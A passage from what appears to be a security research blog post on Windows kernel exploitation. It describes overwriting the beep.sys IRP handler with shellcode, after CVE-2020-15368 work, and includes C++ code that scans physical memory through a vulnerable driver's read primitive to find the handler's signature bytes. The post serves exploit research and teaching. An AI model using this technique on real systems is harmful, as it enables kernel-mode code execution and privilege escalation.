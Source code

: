 Fortunately, after some effort and research, I came across an excellent blog post by *stong* on [CVE-2020-15368](https://github.com/stong/CVE-2020-15368). In this post, he demonstrates how to overwrite the Beep IRP handler with shellcode mapped from a custom driver. This technique aligns perfectly with our needs, so we will follow the same approach. 

As an additional note, there was a recent research publication by *Cedrik Van Bockhaven* from Outflank titled ["Mapping Virtual to Physical Addresses Using Superfetch"](https://www.outflank.nl/blog/2023/12/14/mapping-virtual-to-physical-adresses-using-superfetch/), which explores bypassing restrictions with `MmMapIoSpace`. However, since my research predates this (conducted in 2022 but not yet published), I have not incorporated those findings into this approach.

The beep functionality on a PC is managed by a kernel driver `beep.sys`, which is loaded by default on all Windows systems. Drawing from techniques used in game hacking, we locate the signature in memory where the driver invokes its IRP Handler, overwrite this address with our custom shellcode, and then trigger the exploit by using `beep.sys's` IOCTL code.  This method effectively repurposes the Beep driver to execute our payload, providing a reliable path for kernel-mode code execution.

Below is the signature we need to locate in memory, and in the WinDbg output we can examine the bytes at the start of the beep IRP handler:  

```C++
DWORD64 beepSignature1 = 0x8b4c20ec83485340;
DWORD64 beepSignature2 = 0xd28b4c000000b882;
```

{{< figure src="/images/x507.png" class="center" >}}

Here’s the function to accomplish this in C:

```C++
BOOL findBeepIOHandler(IN HANDLE driver, OUT DWORD64* pBeepHandler) {

	PRINTA("[i] interacting with driver to scan for beep signature\n");
	DWORD64 start = 0x000001290;
	DWORD64 end = 0x2fffff290;

	for (DWORD64 index = start; index <= end; index += 0x1000) {
		//PRINTA("[+] check index 0x%x\n", index);
		DWORD64 byteSequence = readPhysMem8bPrimitive(driver, index);
		// check bytes at physical memory
		if (byteSequence) {
			//PRINTA("[+] check bytes for beep %x\n", byteSequence);
			DWORD64 beepSignature1 = 0x8b4c20ec83485340;
			DWORD64 beepSignature2 = 0xd28b4c000000b882;
			if (byteSequence == beepSignature1) {
				// success signature[8] found, check next 8 bytes for confirmation
				byteSequence = readPhysMem8bPrimitive(driver, (index + 0x8));
				if (byteSequence == beepSignature2) {
					// save
					*pBeepHandler = index;
					PRINTA("[+] beep IOCTL handler at 0x%x\n", pBeepHandler);
					return TRUE;
				}
			}
		}
	}
	PRINTA("Beep IOCTL Handler not found, exiting\n");
	return FALSE;
}
```
